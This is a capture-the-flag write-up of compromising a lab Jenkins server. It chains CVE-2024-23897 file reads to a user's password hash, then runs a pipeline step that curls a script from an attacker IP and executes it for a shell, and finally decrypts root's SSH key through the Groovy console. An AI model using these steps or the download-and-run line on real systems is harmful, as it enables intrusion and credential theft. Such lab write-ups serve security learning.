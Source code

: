 # PORT SCAN

* **22** &#8594; SSH
* **8080** &#8594; HTTP (JETTY 10.0.18)

<br><br><br>

# USER & ROOT FLAG
We have our favorite waiter inside port 8080! With no credentials there is not much we can do unless look the users

![3689427fc3d1c7889c8d98988d68a830.png](img/3689427fc3d1c7889c8d98988d68a830.png)

On the bottom left of the page we can easily find the Jenkins version number 

![36e881d0568da933388e43ab610d83c9.png](img/36e881d0568da933388e43ab610d83c9.png)

Searching online I found this version is vulnerable to Unauthenticated Arbitary File Read and with this [PoC](https://github.com/CrackerCat/xaitax-CVE-2024-23897) we can exploit the vulnerability! 

![69e6511400cae844dda7a2359b859376.png](img/69e6511400cae844dda7a2359b859376.png)

Cool stuff, my first idea was to directly read the temporary admin password (`/var/jenkins_home/secrets/initialAdminPassword`) but we are unlucky since whoever setup jenkins did his job correctly! I had 2 ways now : follow this [cool wirteup](https://www.errno.fr/bruteforcing_CVE-2024-23897.html) on how to decrypt Jenkins key with this exploit or discover more info of the user that is running Jenkins. The latter look way too simple LOL! I have enough experience with Linux and now having just read capabilities is actually cooler! There are probably a lot of way to get some info of the user who is running Jenkins but I decided to go straight to `/proc/self/environ` and read enviroment variable (need to specify the command **keep-build** with flag `-c` [[1](https://github.com/gquere/pwn_jenkins)]). 

![49d476541040f3ff6ed16315e39b6ea6.png](img/49d476541040f3ff6ed16315e39b6ea6.png)

Wait if `/var/jenkins_home` is the home directory you wouldn't tell me that....

![d15a7282071ca9ce69e062eeeac91557.png](img/d15a7282071ca9ce69e062eeeac91557.png)

Damn good catch! Now with some patience and RTFM I know that to find more info about the users I should read the file located at `/var/jenkins_home/users/users.xml` but....

![d1d52dd58f255a3ccc5e11832af9f8f4.png](img/d1d52dd58f255a3ccc5e11832af9f8f4.png)

Using other command options would show me at max the first three lines and the file is too large. I decided to do things manually so maybe I can get more info, I downloaded the Jenkins CLI jar file directly from the webserver ([documentation](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client) was clear about it, I discoveed something new cool!) and run the same command following one of the millions exploit guide you can find online

![758bacb10fafdabd937e12bdb8a833c7.png](img/758bacb10fafdabd937e12bdb8a833c7.png)

Jennifer cute girl now I know your ID within Jenkins configuration files, cute <3

Well now we can visit `/var/jenkins_home/users/jennifer_12108429903186576833/config.xml`, get the encrypted password and crack it!

![374c03f55a19aeb9806e492976b72694.png](img/374c03f55a19aeb9806e492976b72694.png)

Finally we get access to the Jenkins webapp, now there a lot of ways to get foothoudl through Jenkins but my favorite one is also the simples...using **<u>pipelines</u>**. With this simple scritpt I was able to get access inside the machine

```
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                   curl http://10.10.14.25/bitch >> /tmp/lol.sh; chmod 777 /tmp/lol.sh; bash /tmp/lol.sh
                '''
            }
        }
    }
}
```

![f5f1f396021180f9063c4cab43d173b3.png](img/f5f1f396021180f9063c4cab43d173b3.png)

We would jump directly inside the jenkins home directory an inside I found **<u>credentials.xml</u>** which store ssh credentials of `root`!

![f6ed651935bd022d13919730e00ef6db.png](img/f6ed651935bd022d13919730e00ef6db.png)

There is a small trick to decrypt this stuff without uploading stuff on our local machine. We can get the string between `<privateKey>...</privateKey>` and use the Groovy console located at `/script` in the jenkins webapp to decrypt it with builtin command

![e7aee7b4466b1515f15728c43666f39b.png](img/e7aee7b4466b1515f15728c43666f39b.png)

Cool! Now we can redeem the final prize!

![b5198d19f6eeb4d83a744aab4b295ee6.png](img/b5198d19f6eeb4d83a744aab4b295ee6.png)
